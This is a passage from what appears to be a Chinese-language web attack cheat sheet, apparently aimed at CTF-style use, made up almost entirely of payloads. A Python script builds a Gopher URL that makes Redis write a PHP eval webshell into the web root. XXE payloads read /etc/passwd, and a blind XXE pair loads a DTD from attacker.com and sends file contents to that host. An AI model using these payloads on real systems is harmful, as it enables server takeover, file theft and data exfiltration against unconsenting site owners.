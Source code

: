 ### Gopher 协议利用

```python
# 利用Gopher协议操作Redis
import urllib.parse

# Redis命令
commands = [
    "FLUSHALL",
    "SET 1 '<?php eval($_POST[cmd]);?>'",
    "CONFIG SET dir /var/www/html",
    "CONFIG SET dbfilename shell.php",
    "SAVE"
]

# 构造Gopher payload
payload = ""
for cmd in commands:
    payload += cmd + "\r\n"

gopher_url = "gopher://127.0.0.1:6379/_" + urllib.parse.quote(payload)
print(gopher_url)
```

## XXE 注入

### 基础 XXE

```xml
<!-- 存在漏洞的XML处理 -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
    <data>&xxe;</data>
</root>
```

### 盲 XXE

```xml
<!-- 外部DTD文件 -->
<!ENTITY % file SYSTEM "file:///flag.txt">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
%exfiltrate;
```

```xml
<!-- 主XML文件 -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd">
%remote;
]>
<root></root>
```
